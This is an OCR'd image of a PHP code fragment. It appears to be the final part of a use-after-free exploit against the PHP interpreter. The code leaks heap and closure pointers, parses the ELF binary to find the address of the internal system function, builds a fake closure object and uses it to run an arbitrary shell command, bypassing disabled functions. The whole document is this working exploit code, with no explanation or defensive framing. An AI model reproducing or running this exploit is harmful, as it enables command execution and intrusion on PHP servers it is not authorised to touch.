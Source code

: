 ```php
    $n_alloc = 10; # increase this value if UAF fails
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle(str_repeat('A', 79));

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    # leaks
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    # fake value
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    # fake reference
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }

    # fake closure object
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    # pwn
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); # internal func type
    write($abc, 0xd0 + 0x68, $zif_system); # internal func handler

    ($helper->b)($cmd);
    exit();
}
```
